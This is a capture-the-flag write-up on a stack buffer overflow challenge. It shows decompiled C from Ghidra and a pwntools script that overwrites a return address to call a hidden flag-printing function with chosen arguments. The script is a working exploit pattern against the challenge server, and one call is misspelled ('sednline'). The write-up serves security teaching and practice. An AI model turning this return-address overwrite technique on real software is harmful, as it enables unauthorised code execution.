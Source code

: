 # Summary
For this challenge we have another stack overflow challenge, this time focuseing on calling other functions no setup from the stack. The tools for this challenge will be Ghidra to view and understand the code, and pwntools to execute the payload we will create on the remote server.

# Info Gathering
On the first look through the code in Ghidra, we see a function called huh_whats_this_function_for, which prints out the flag from a text file. We see no call to this function in the basic run of the program, meaning we have to spoof the call somehow with stack overflow. Looking trhough the code we see a function called breakfast, which we can actually overflow. Local_24 is our target in this case, and looking at the stack we see we have a offset of 0x24, which is equal to 36. Meaning we have to give 36 bytes of junk to get to the rest of the stack.
```c
void huh_whats_this_function_for(int param_1,int param_2)

{
  char local_33 [35];
  FILE *local_10;
  
  if ((param_1 == -0x74520ff3) && (param_2 == -0x54524542)) {
    printf("Here is the correct flag: ");
    local_10 = fopen("flag.txt","r");
    fgets(local_33,0x22,local_10);
    fclose(local_10);
    puts(local_33);
  }
  return;
}
```
```c
void breakfast(void)

{
  char local_24 [20]; #value to overflow
  int local_10;
  
  puts("What breakfast do you want to eat?");
  do {
    local_10 = getchar();
    if (local_10 == 10) break;
  } while (local_10 != -1);
  fgets(local_24,200,stdin); #grabs more than necessary
  puts("I guess if thats what u want...");
  return;
}

```
# Payload Creation
With the knowledge of the overflow above we can begin creating a payload with pwn tools. First things first we get to to the breakfast function in the remote server. From there we fill up 36 bytes of junk to get to return address. Here we fill in the return address for the flag printing function. Then we add another garbage return address so that after the flag function runs it can find a function to continue to(doesn't matter since we just need the flag and don't need the program to continue afterwards). After those two address, we have to pass in the variables for the function run, with inputting param_1 first then param_2 since the stack is reversed with variables.

```python
from pwn import *

p = remote("chal.ctf-league.osusec.org", 7159)
p.recv()
p.recv()
p.sendline("1")
p.recv()
p.recv()
p.sednline("2")
p.recvline()
p.sendline((b'A'*36) + p32(0x08048646) + p32(0) + p32(0x8badf00d) + p32(0xabadbabe))
p.interactive()
```

When this script is run it will print out the flag to our terminal, then we can submit it for points. 